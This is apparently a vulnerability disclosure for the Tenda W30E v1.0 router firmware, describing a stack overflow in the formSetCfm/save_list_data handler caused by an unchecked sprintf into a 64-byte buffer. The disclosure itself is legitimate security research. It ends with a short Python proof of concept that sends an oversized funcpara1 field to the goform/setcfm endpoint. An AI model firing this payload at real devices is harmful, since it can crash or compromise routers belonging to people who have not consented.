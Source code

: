 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2218.html

## Affected version

W30Ev1.0 V1.0.1.25(633)

## Vulnerability details

The Tenda W30Ev1.0 V1.0.1.25(633) firmware has a stack overflow vulnerability located in the `formSetCfm` function. This function accepts the `funcpara1` parameter from a POST request and passes it to the `save_list_data` function. Within `save_list_data`, the array `v10` is fixed at 64 bytes. However, since the user has control over the input of `funcpara1`, the statement `sprintf(v10, "%s.list%d", a1, v6);` leads to a buffer overflow. The user-supplied `funcpara1` can exceed the capacity of the `v10` array, thus triggering this security vulnerability.

![image-20240319133131680](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133131680.png)

![image-20240319133412555](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133412555.png)

![image-20240319133403710](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240319133403710.png)

## POC

```python
import requests as re

s = re.Session()
url_base = 'http://192.168.84.101/'

# Send payload
url = url_base + 'goform/setcfm'
data = {
        'funcname': 'save_list_data', 
        'funcpara1': b'a'*0x500, 
        'funcpara2':'aaaaaa'
}

res = re.post(url, data=data)
```

![image-20240409102339559](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240409102339559.png)